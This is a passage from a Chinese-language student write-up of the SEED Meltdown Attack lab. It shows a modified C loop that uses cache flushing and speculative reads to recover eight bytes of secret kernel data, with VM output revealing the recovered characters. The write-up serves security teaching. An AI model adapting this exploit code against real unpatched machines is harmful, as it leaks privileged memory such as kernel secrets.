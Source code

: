 实验现象：
1. 更改汇编代码中加法运算的次数
- 循环次数为400时，命中为99%
```
The Secret = 83.
The Secret = 83.
~Get secret data~ percentage: 99/100
```
- 循环次数为50时，命中为98%，有两次 secret data = 0  的现象，这都包含在了命中率上
- 循环次数为600， 命中率为100%。结果全部为83。


# Task 8: Make the Attack More Practical
因为程序可能产生多个结果，因此我们想要通过统计结果来推测最可靠的数据。实际上也就是计数，最后取出出现次数最多的那个。

编译运行`MeltdownAttack.c`文件（记得要修改secret data 的地址值），可得到如下结果：
```
[10/09/19]seed@VM:~/.../Meltdown_Attack$ ./MeltdownAttack 
The secret value is 83 S
The number of hits is 924
```
但以上只是得到了 secret data 的第一份byte值，为了得到8个数，我们要简单修改一下源文件。

```
for (k = 0; k < 8; k++) {
  memset(scores, 0, sizeof(scores));
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
        ret = pread(fd, NULL, 0, 0);
        if (ret < 0) {
          perror("pread");
          break;
        }
        // Flush the probing array
        for (j = 0; j < 256; j++)
                _mm_clflush(&array[j * 4096 + DELTA]);
        if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(secret_data_start + k); }

        reloadSideChannelImproved();
  }
  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
        if (scores[max] < scores[i]) max = i;
  }
  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
}

```

实验结果如下：
```
[10/09/19]seed@VM:~/.../Meltdown_Attack$ ./MeltdownAttack 
The secret value is 83 S
The number of hits is 969
The secret value is 69 E
The number of hits is 965
The secret value is 69 E
The number of hits is 968
The secret value is 68 D
The number of hits is 968
The secret value is 76 L
The number of hits is 964
The secret value is 97 a
The number of hits is 966
```
